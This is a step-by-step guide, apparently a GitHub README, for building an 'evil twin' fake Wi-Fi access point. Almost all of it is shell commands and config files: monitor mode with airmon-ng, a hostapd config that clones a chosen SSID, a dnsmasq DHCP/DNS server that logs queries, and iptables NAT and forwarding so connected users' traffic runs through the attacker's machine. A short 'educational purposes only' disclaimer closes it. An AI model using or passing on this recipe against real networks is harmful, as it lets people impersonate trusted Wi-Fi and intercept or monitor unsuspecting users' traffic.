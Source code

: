 # Fake AP (Evil Twin Attack) Guide

Welcome to the Fake Access Point (Evil Twin Attack) creation guide. This step-by-step guide will help you set up a fake access point to test the security of your wireless networks. 

**Note:** Ensure you update all packages to the latest version using `apt update` before proceeding. Run all commands as the root user using a root terminal. Use separate terminal tabs for `hostapd` and `dnsmasq`, and any subsequent steps. Customize the placeholders `{}` as needed. Steps after Step 7 are optional and are for providing internet service from your connected WiFi source.


## Prerequisites

- A Linux system with `apt` package manager.
- External WiFi adapter capable of monitor mode.
- Root access.

## Step-by-Step Instructions

### 1. Install Required Tools

Install the necessary tools to create the fake access point:

```bash
apt install hostapd dnsmasq apache2
```

### 2. Enable Monitor Mode

Put your external WiFi adapter into monitor mode:

```bash
airmon-ng start wlan0
```

### 3. Create Directory for Fake AP

Create a directory to store configuration files:

```bash
mkdir /root/fap
```

### 4. Navigate to Directory

Change directory to the newly created one:

```bash
cd /root/fap
```

### 5. Create Hostapd Configuration

Create and edit the `hostapd.conf` file with the following content:

```bash
nano hostapd.conf
```

```plaintext
interface={name of your external wifi adapter}
driver=nl80211
ssid={Name of the Wifi}
hw_mode=g
channel={Channel number}
macaddr_acl=0
ignore_broadcast_ssid=0
```

### 6. Run Hostapd

Start `hostapd` using the created configuration file:

```bash
hostapd hostapd.conf
```

### 7. Create Dnsmasq Configuration

Create and edit the `dnsmasq.conf` file with the following content:

```bash
nano dnsmasq.conf
```

```plaintext
interface=wlan0mon
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

### 8. Configure Network Interface

Assign a network mask and gateway to your external WiFi adapter:

```bash
ifconfig {name of your external wifi adapter} up 192.168.1.1 netmask 255.255.255.0
```

### 9. Add Route

Add a route to the table:

```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

### 10. Start Dnsmasq

Start the DNS server with the specified configuration:

```bash
dnsmasq -C dnsmasq.conf -d
```

### 11. Configure Iptables for NAT

Create an interface to forward traffic:

```bash
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
```

### 12. Configure Iptables for Forwarding

Create an interface to receive packets:

```bash
iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
```

### 13. Enable IP Forwarding

Enable IP forwarding:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Cleanup

After you're done, you might want to clean up and reset your configurations:

```bash
airmon-ng stop wlan0mon
ifconfig wlan0 down
iwconfig wlan0 mode managed
ifconfig wlan0 up
iptables --table nat --delete POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan0mon -j ACCEPT
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Warning

**Warning:** This guide is intended for educational and ethical testing purposes only. Do not use this content for illegal activities. Unauthorized access to computer systems is illegal and punishable by law.

## Author: 
This content is created by **Purva Patel**.
